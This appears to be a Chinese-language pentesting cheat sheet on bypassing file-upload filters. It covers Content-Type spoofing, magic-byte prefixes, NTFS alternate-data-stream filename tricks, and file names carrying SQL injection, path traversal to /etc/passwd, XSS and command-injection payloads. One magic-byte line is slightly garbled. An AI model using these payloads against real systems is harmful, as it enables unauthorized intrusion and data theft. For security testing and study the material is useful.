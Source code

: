 ** content-type**

```
Content-Type : application/x-php 
Content-Type : application/octet-stream 
==> 
Content-Type : image/gif
Content-Type : image/png
Content-Type : image/jpeg
```

content-type wordlist:

https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt

在http包中设置两个content-type，一个使用允许的格式，另一个使用不允许的格式

**魔法字节**

有些服务通过识别文件的签名字节来判断合理性，通过添加或替换内容可能造成欺骗

```
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[ .PNG： \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff .JPG： \xff\xd8\xff
GIF: GIF87a OR GIF8;
```

也可以在元数据中添加外壳

******************************************************************************

使用 NTFS 备用数据流 (ADS) 在 Windows 中可以在文件名中插入冒号字符 ":"。这种技术可以用于在服务器上创建具有禁止扩展名的空文件。例如，如果禁止 ".asax" 扩展名，但允许 ".jpg" 扩展名，则可以使用 "file.asax:.jpg" 文件名创建空文件。这个文件可以使用其他技术进行编辑，例如使用其短文件名进行编辑。

除了创建空文件外，"::$data" 模式也可以用于创建非空文件。因此，添加一个点字符 "." 到这个模式后面，可以绕过进一步的限制。例如，"file.asp::$data." 可以创建一个非空文件。

## 文件名漏洞

在某些情况下，文件上传并不是漏洞的根本原因，而是文件上传后文件处理的漏洞。在这种情况下，攻击者可能会利用文件名中的恶意负载来利用这种漏洞。

例如，如果应用程序在处理文件名时没有正确地进行输入验证和过滤，攻击者可能会使用包含恶意代码的文件名来执行任意代码或跨站脚本攻击 (XSS)。攻击者可以将恶意代码嵌入文件名中的文件扩展名、文件路径或其他元数据中。

```
Time-Based SQLi Payloads:
poc.js'(select*from(select(sleep(20)))a)+'.extension
LFI/Path Traversal Payloads:
image.png../../../../../../../etc/passwd
XSS Payloads:
'"><img src=x onerror=alert(document.domain)>.extension
File Traversal:
../../../tmp/lol.png
Command Injection:
; sleep 10;
```
